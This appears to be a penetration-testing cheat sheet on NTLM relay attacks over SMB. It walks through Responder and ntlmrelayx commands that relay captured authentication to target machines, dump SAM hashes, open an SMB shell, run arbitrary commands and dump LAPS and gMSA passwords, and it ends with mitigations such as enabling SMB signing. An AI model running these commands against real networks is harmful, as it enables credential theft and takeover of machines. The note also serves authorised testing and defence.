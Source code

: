 # smb relay ntlmrelayx

**REQUIREMENTS:**

* SMB signing must be disabled.
* Relayed user creds must be admin on machine

## Information

Invoke this attack: request callback to SMB on kali using `\\IP`

1. `responder` will capture the request, pass it to `ntlmrelayx`
2. ntlmrelayx will relay the request to TARGET.txt
    1. Enables RemoteRegistry
        1. Captures system bootkey
        2. Performs intended action; Default action: SAM dump using `secretsdump.py`
        3. Retores RemoteRegistry back to disabled state.

```bash
ntlmrelayx.py [-t TARGET | -tf TARGET_FILE] -smb2support [-i] [-e "SHELL.exe"] [-c "COMMANDS"]
# -i: will open a smb shell, can connect using nc IP PORT
# --dump-laps: dump LAPS passwords
# --dump-gmsa: dump gMSA passwords

```

## SMB-check

```bash
nmap --script=smb2-security-mode.nse -p 445 IP/CIDR
```

## Method:

1. set `SMB=Off` and `HTTP=Off` in `/etc/responder/Responder.conf`
2. Run `sudo responder -I INTF -rdwv`
3. Run `ntlmrelayx.py -tf TARGET.txt -smb2support [FLAGS]`

## Fix

* Enable SMB signing on all devices (can cause performance issues).
* Disable NTLM Auth on network
* Account tiering (restricting domain admins to specific tasks)